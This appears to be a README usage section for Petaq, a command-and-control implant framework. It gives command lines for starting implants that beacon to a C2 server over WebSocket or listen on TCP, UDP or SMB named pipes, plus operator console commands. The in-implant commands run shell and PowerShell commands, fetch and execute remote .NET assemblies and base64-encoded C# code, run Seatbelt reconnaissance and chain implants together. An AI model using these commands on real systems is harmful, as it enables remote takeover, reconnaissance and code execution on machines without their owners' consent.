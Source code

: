 # Usage Examples
Petaq Implant Run Arguments:
1. It runs Petaq Implants to connect to a Petaq Service using Websocket (If not configured on Configuration.cs)
```
    petaqimplant.exe ws://172.16.121.1/ws
    petaqimplant.exe wss://172.16.121.1:443/ws (SSL)
```
2. It runs Petaq Implant on TCP 8000 and wait for another implant to link it to the Petaq Service
```
   petaqimplant.exe tcp 8000
```
3. It runs Petaq Implant on UDP 8000 and wait for another implant to link it to the Petaq Service
```
    petaqimplant.exe udp 8000
```
4. It runs Petaq Implant on SMB Named Pipe pipename1 and wait for another implant to link it to the Petaq Service
```
   petaqimplant.exe smb pipename1
```

Petaq Service Commands:
```
    Help:
        help
    List the Implants:
        list
    Use the Implant:
        use SessionID
    Remove the Implant:
        remove SessionID
    Show Routes for Linked Implants:
        route
    Run Scenarios:
        scenario IMPLANTID scenariofilepath
        scenarios
        scenarios SCENARIOID
        scenarios SCENARIOID output
        scenarios SCENARIOID export reportfilepath
    Exit:
        exit
        terminate
```
Practical Examples on Petaq Implant in Interaction (use ImplantID):
```
Usage Examples:
	exec cmd /c dir
        exec net use
        exec powershell -c Write-Output($env:UserName)
        exec-sharpassembly url http://127.0.0.1/Seatbelt.exe BasicOSInfo
        exec-sharpassembly url http://127.0.0.1/test.exe
        exec-sharpcode base64 http://127.0.0.1/test.b64
        exec-sharpcode url http://127.0.0.1/test.cs
        exec-sharpcode base64 http://127.0.0.1/test.cs.b64
        exec-sharpdirect Console.WriteLine(""test 1234"");
        link tcp://127.0.0.1/8002
        link udp://127.0.0.1/8002
        link smb://127.0.0.1
        link smb://127.0.0.1/petaq_comm

Link operations:
	route
        sessions
        link URI
```